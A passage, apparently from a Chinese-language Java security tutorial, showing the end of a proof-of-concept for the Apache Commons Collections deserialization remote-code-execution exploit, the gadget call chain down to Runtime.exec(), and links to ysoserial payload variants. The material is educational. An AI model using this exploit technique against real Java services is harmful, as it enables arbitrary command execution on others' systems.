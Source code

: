 ```java
			// 序列化AnnotationInvocationHandler类
			out.writeObject(instance);
			out.flush();
			out.close();

			// 获取序列化的二进制数组
			byte[] bytes = baos.toByteArray();

			// 输出序列化的二进制数组
			System.out.println("Payload攻击字节数组：" + Arrays.toString(bytes));

			// 利用AnnotationInvocationHandler类生成的二进制数组创建二进制输入流对象用于反序列化操作
			ByteArrayInputStream bais = new ByteArrayInputStream(bytes);

			// 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
			ObjectInputStream in = new ObjectInputStream(bais);

			// 模拟远程的反序列化过程
			in.readObject();

			// 关闭ObjectInputStream输入流
			in.close();
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

反序列化`RCE`调用链如下：

```java
ObjectInputStream.readObject()
  ->AnnotationInvocationHandler.readObject()
  	->TransformedMap.entrySet().iterator().next().setValue()
  		->TransformedMap.checkSetValue()
        ->TransformedMap.transform()
          ->ChainedTransformer.transform()
            ->ConstantTransformer.transform()
            ->InvokerTransformer.transform()
              ->Method.invoke()
                ->Class.getMethod()
            ->InvokerTransformer.transform()
              ->Method.invoke()
                ->Runtime.getRuntime()
            ->InvokerTransformer.transform()
              ->Method.invoke()
                ->Runtime.exec()
```

`Apache Commons Collections`漏洞利用方式也不仅仅只有本节所讲解的利用`AnnotationInvocationHandler`触发`TransformedMap`构建调用链的这一种方式，[ysoserial](https://github.com/frohoff/ysoserial)还提供了多种基于`InstantiateTransformer/InvokerTransformer`构建调用链方式：[LazyMap](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)、[PriorityQueue](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java)、[BadAttributeValueExpException](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)、[HashSet](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)、[Hashtable](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections7.java)。
